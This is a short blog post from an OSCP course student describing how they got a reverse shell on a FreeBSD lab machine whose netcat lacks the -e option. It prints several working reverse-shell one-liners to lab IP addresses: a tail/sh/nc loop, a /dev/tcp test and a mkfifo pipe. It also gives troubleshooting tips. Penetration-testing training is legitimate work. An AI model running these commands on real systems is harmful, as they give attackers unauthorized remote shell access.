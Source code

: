 ```yaml
---
layout: inner
title: 'Using netcat without -e'
date: 2017-08-26 01:37
categories: security
tags: netcat hack draft
featured_image: '/images/posts/netcat-a-swiss-army-tool-1-638.jpg'
lead_text: 'Okay, okay, this is some kind of insiders thing. If you dont know what Im talking about from the title of this article, then there is nothing to see... Please move along!'
---
```


Recently in my OSCP course, I was struggeling a few hours to get a reversed shell connection. It was a FreeBSD box, not quite my expertise.

<img src="/images/posts/netcat_freebsd.png" 
     alt="Netcat on FreeBSD"
     width="320px"
     class="media pull-right img-thumbnail">
I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following solution.

1. Use tail -f to feed commands from a temporary file to bash. (Using -n 0 to ignore any current content of the temporary file.)
2. Redirect the output of the shell command to netcat.
3. Redirect the output of netcat to the temporary file, so the tail command picks it up...

The result looks like:

```bash
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
```

And don't forget, all your commands are stored in the /tmp/1 file... (ツ)

From many other options I found, none seemed to work. A quick test showed that the famous 
[/dev/tcp/&lt;ip&gt;/&lt;port&gt;](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) 
did not work either. The following command did not result in any response on my machine.

```bash
echo foo > /dev/tcp/10.11.0.13/443
```

Ofcourse, after having rooted the machine, I was still wondering whether other options found on the internet could work too. In my case I was able to execute multiple commands by separating them with a semicolon. This way a pipe is created first, followed by: netcat reading input from that pipe, netcat redirecting output to bash, bash redirecting stderr and stdout to the pipe again.

```bash
mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe 
```

To wrap up, which things slowed me down finding a way to obtain a reverse shell?
1. Not understanding the "mkfifo pipe" command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
3. When uname -a gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
4. Oh, and last: chmod +x did not work, chmod 777 did the job... (◔_◔)
